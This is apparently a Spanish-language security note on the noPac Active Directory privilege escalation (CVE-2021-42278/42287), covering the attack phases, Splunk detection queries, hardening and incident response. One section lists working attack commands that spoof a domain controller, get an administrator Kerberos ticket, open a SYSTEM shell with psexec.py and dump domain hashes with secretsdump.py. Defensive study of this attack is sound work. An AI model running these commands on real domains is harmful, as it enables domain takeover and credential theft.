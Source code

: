 # 🛑 noPac en Active Directory

---

## 📝 ¿Qué es noPac?

| Concepto      | Descripción                                                                                                      |
|---------------|-----------------------------------------------------------------------------------------------------------------|
| **Definición**| Combinación de dos fallos (CVE-2021-42278 y CVE-2021-42287) que permite a cualquier usuario del dominio crear y manipular cuentas de máquina para suplantar a un DC y obtener privilegios de administrador. |
| **Requisito** | MachineAccountQuota > 0 (por defecto 10) y DCs sin parches críticos de noviembre/diciembre 2021 o posteriores.    |

---

## 🛠️ ¿Cómo funciona el ataque?

| Fase                | Acción                                                                                                 |
|---------------------|--------------------------------------------------------------------------------------------------------|
| **Creación**        | El atacante, con una cuenta cualquiera, crea una cuenta de máquina nueva en el dominio.                |
| **Manipulación**    | Cambia el nombre/SAMAccountName de la máquina para imitar un DC, o modifica una existente poco vigilada.|
| **Ticket Kerberos** | Solicita TGT/TGS como esa máquina, engañando al KDC y obteniendo privilegios de administrador de dominio. |
| **Explotación**     | Usa el ticket para ejecutar comandos como SYSTEM, abrir shells remotas y extraer hashes desde el DC.    |
| **Limpieza**        | Borra la cuenta de máquina para eliminar huellas.                                                      |

---

## 💻 Ejemplo práctico ofensivo (comandos reales)

```bash
# Crear cuenta de máquina y cambiar atributos (nombre de DC)
python3 nopac.py --action addcomputer --computer-name FAKE-DC$ --computer-pass 'Password123!'
python3 nopac.py --action modcomputer --computer-name FAKE-DC$ --newname DC01$

# O modificar una cuenta de máquina existente ya creada:
python3 nopac.py --action modcomputer --computer-name EXISTENTE$ --newname DC01$

# Solicitar TGT como DC comprometido
getST.py -dc-ip 192.168.1.10 ESSOS.LOCAL/DC01\$ -impersonate administrator

# Obtener shell como SYSTEM directamente en el DC
psexec.py -k -no-pass ESSOS.LOCAL/administrator@dc01.essos.local

# Volcar hashes de todo el dominio
secretsdump.py -k -no-pass ESSOS.LOCAL/administrator@dc01.essos.local

# Muchos scripts permiten --dump, --shell, etc., para automatizar el proceso
```

---

## 📊 Detección en Splunk

| Evento clave | Descripción                                                                              |
|--------------|-----------------------------------------------------------------------------------------|
| **4741**     | Creación de cuenta de máquina (MachineAccountQuota abuse/noPac)                         |
| **4742**     | Modificación de cuenta de máquina (nombre, contraseña, atributos)                       |
| **4743**     | Borrado de cuenta de máquina (limpieza)                                                 |
| **4768/4769**| Solicitud de TGT/TGS Kerberos con la cuenta comprometida (suplantación, abuso tickets)  |
| **4624**     | Inicio de sesión (tipo 3/red) usando la máquina falsa                                   |
| **7045**     | Creación de servicio remoto (psexec/smbexec, shell persistente)                         |
| **5140**     | Acceso a recursos compartidos (ADMIN$, SYSVOL)                                          |
| **4662**     | Cambios en objetos críticos de AD (delegaciones, atributos avanzados)                   |
| **4738**     | Cambios en cuentas de usuario (si se toca una cuenta de máquina ya existente)           |

### Query Splunk básica

```splunk
index=dc_logs (EventCode=4741 OR EventCode=4742 OR EventCode=4743 OR EventCode=4768 OR EventCode=4769 OR EventCode=4624 OR EventCode=7045 OR EventCode=5140 OR EventCode=4662 OR EventCode=4738)
| sort _time
| table _time, EventCode, TargetAccountName, SubjectAccountName, host, Client_Address
```

### Cambios en cuentas de máquina existentes

```splunk
index=dc_logs EventCode=4742
| search AttributeName="sAMAccountName" OR AttributeName="servicePrincipalName" OR AttributeName="userAccountControl"
| table _time, TargetAccountName, SubjectAccountName, AttributeName, OldValue, NewValue, host
```

### Detección de shell/dump vía creación de servicio y acceso a NTDS.dit

```splunk
index=dc_logs (EventCode=7045 OR EventCode=5140)
| search (ServiceFileName="*cmd.exe*" OR ServiceFileName="*powershell.exe*" OR Object_Name="*NTDS.dit*")
| table _time, EventCode, ServiceFileName, Object_Name, SubjectAccountName, host
```

---

## 🦾 Hardening y mitigación

| Medida                                  | Descripción                                                                                      |
|------------------------------------------|-------------------------------------------------------------------------------------------------|
| **MachineAccountQuota = 0**              | Solo los administradores pueden crear cuentas de máquina.                                        |
| **Parchear DCs**                         | Aplica todas las actualizaciones acumulativas desde nov/dic 2021 (CVE-2021-42278 y 42287).       |
| **Alerta por secuencia completa**        | No solo un evento: correlaciona creación, modificación y uso de cuentas de máquina.              |
| **Honeytokens de máquina**               | Crea cuentas de máquina trampa y alerta si se usan.                                              |
| **Monitoriza cambios en cuentas existentes** | Detecta 4742 sobre cuentas de máquina antiguas o poco usadas.                                   |
| **Auditoría avanzada y logs grandes**    | Habilita directivas de auditoría avanzada y sube el tamaño del log de seguridad.                 |
| **Permisos de delegación restringidos**  | No uses “Permitir delegación a cualquier servicio”. Segmenta y revisa delegaciones periódicamente.|
| **Monitoriza cambios en msDS-AllowedToActOnBehalfOfOtherIdentity** | Detección avanzada de persistencia oculta.                                     |
| **Auditoría de scripts y binarios en ADMIN$** | Alerta si aparece un ejecutable no estándar en recursos compartidos administrativos.             |
| **Restricción temporal**                 | Alerta si un 4742 ocurre fuera de horario laboral.                                               |

---

## 🚨 Respuesta ante incidentes

1. **Aísla inmediatamente cualquier máquina donde veas la secuencia 4742 (sobre cuenta antigua) + 7045/5140.**
2. **Revoca tickets Kerberos** y resetea la contraseña de la cuenta de máquina afectada.
3. **Forense de servicios creados y binarios ejecutados en las últimas horas.**
4. **Analiza cambios de atributos en cuentas de máquina en logs históricos (búsqueda retroactiva).**
5. **Despliega reglas de detección en tiempo real para cambios de atributos clave.**

---

## 📚 Referencias

- [noPac - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privilege-escalation/nopac)
- [Microsoft Security Update Guide](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278)
- [Impacket](https://github.com/fortra/impacket)

